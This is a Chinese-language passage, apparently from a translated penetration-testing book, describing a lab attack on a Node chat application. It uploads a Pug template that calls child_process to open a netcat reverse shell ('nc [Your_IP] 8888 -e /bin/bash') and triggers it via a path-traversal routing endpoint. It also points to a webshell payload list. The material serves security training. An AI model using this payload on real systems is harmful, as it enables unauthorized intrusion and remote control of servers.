 

### JavaScript 和远程代码执行

远程代码执行是我们在每次入侵和 Web 应用程序渗透测试中必须寻找的。虽然 RCE 几乎可能在任何地方找到，但它们最常见于允许上传的地方，例如：上传 web shell，一个像 [Imagetragick](https://imagetragick.com/) 这样的漏洞利用，使用 Office 文件进行 XXE 攻击，基于遍历的目录上传以替换关键文件等。

传统来说，我们可能会尝试找到我们可以使用的上传区域和 shell。可以在此处找到不同类型的 webshell payload 的绝佳列表：https://github.com/tennc/webshell 。请注意，我绝不会审查任何这些 shell 是否存在后门，所以使用它们需要你自担风险。我遇到过很多有后门的 shell。

**使用上传攻击对聊天应用程序进行攻击**

在我们的实验室中，我们将在 Node 应用程序上执行上传 RCE。在我们的示例中，有一个文件上传功能，允许任何文件上传。不幸的是，使用 Node，我们不能只通过 Web 浏览器调用文件来执行文件，就像在 PHP 中一样。因此，在这种情况下，我们将使用动态路由端点尝试呈现 Pug 文件的内容。错误在于端点将读取文件的内容，假设它是 Pug 文件，因为默认目录存在于 Views 目录中。此端点上还存在路径遍历和本地文件读取漏洞。
 
 ![](../images/chapter_3/3-34.png)

在上传过程中，文件处理程序模块会将文件重命名为随机字符串，没有扩展名。在页面的上传响应内容中，存在上载文件的服务器路径位置。使用这些信息，我们可以使用/drouting 执行模板注入以实现远程代码执行。

既然我们知道底层应用程序是 Node(JavaScript)，我们可以上传什么样的 payload 来才能被 Pug 执行？回到我们之前使用的简单示例：
* 首先，为 require 模块分配一个变量
    * `-var x = global.process.mainModule.require`
* 使用子进程模块使我们能够通过运行任何系统命令来访问操作系统功能：
    * `-x('child_process').exec('nc [Your_IP] 8888 -e /bin/bash')`

RCE 上传攻击：

* 转到 http://chat:3000 并使用任何有效帐户登录
* 使用以下信息上传文本文件。在 Pug 中，“-”字符表示执行 JavaScript。
    * `-var x = global.process.mainModule.require`
    * `-x('child_process')。exec('nc [Your_IP] 8888 -e / bin / bash')`
* 通过上传文件查看 Burp 中的请求和响应。你将注意到在响应 POST 请求中上传的文件的哈希值以及引用的 drouting。

 ![](../images/chapter_3/3-35.png)
